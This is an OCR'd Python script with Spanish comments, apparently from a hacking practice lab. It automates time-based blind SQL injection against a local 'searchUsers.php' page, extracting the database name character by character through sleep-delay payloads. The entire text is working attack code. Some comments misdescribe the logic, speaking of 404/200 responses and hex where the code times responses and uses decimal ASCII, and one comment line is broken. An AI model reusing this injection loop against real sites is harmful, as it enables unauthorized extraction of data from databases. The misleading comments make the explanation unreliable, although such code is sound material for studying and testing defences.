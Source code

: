 ```python
def def_handler(sig, frame):
    print("\n\n[!] Saliendo..\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# time.sleep(10) <---- SLEEP PARA PROBAR EL CTRL+C

# CTRL+C ----------------------------------------------

# Variables Globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    # Creando barras de progreso con PWN TOOLS
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    
    time.sleep(2)

    p2 = log.progress("Datos extraídos")

    extracted_info = ""

    # Aca se hace un bucle anidado para recorrer de 1 al 200 representando a la posición de cada letra, y luego del 33 al 126 representando todos los caractes en Hex existente
s.
    for position in range(1, 200):
        for character in range(33, 126):
            sqli_url = main_url + "?id=1 and if(ascii(substring(database(),%d,1))=%d,sleep(0.5),1)" % (position, character) # String formatting
            
            p1.status(sqli_url)
            
            time_start = time.time()

            # Aca se define la petición por get, la cual brindara muchos 404 y muchos 200, nosotros queremos los 200 que son las combinaciones exitosas de letras.
            r = requests.get(sqli_url)

            time_end = time.time()

            # Aca se define el condicional para decirle que queremos que nos muestre aquella respuesta que tenga un 200OK y que pase ese caracter a legile ya que esta en hex.
            if time_end - time_start > 0.5:
                # En este caso la variable extracted_info almacenará los datos exitosos en su variable, para mostrarlo mas ordenado
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':

    makeSQLI()
```
